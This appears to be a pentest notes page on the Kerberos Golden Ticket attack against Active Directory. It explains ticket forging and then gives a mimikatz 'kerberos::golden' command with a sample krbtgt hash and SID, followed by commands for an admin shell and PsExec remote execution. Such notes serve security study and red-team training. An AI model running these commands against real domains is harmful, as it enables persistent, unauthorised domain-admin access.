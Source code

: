 # Golden Ticket

## Intro

Golden Ticket Attack is also a good example of the Pass the Ticket Attack.  the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT (with a valid PAC) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical (krbtgt). we would thus have to obtain the NTLM hash of the krbtgt account (RC4) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT (golden ticket). there is no prior credential submission or AS\_REQ/AS-REP.

the difference between a golden ticket and other tickets (including the silver ticket ) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key (which is not easy to get)
3. its typically a TGT for an administrative account (RID 500 in a domain or domain administrator)
4. its typically valid for a long time (10 years by default)


Creating a Golden Ticket
------------------------

**with mimikatz we can create a Golden Ticket if we have the following information:**

**KDC LT key (e.g: krbtgt NTLM hash)**

**Domain admin account name**

**SID of domain admin account**



#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](<../../../.gitbook/assets/image (200).png>)

now we can get a shell with admin privileges:

```
misc::cmd
```

![](<../../../.gitbook/assets/image (201).png>)

or using psexe:

```
PsExec64.exe \\192.168.1.105 cmd.exe
```
